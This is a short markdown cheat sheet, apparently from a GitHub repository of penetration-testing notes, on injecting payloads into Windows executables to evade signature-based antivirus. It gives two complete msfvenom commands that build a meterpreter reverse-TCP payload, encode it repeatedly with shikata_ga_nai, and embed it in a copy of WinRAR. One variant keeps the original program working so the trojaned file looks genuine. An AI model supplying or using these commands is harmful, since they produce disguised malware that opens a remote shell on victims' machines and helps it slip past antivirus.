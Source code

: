 # Injecting Payloads into Windows portable executables

This can be used to avoid signature based AVs  
-x -- this will allow us to use a template
-k -- This will preserve the template behaviour and inject payload as new thread

_Some executables will not allow injections_  

Winrar will allow you to inject  
1. Download winrar
2. ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=(Host IP) LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe -x (executable you are injecting) > winrar.exe```

Maintain functionality of exe  
1. Download winrar
2. ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=(Host IP) LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe -k -x (executable you are injecting) > winrar.exe```  
_This technique may not work much longer as AVs are catching on_
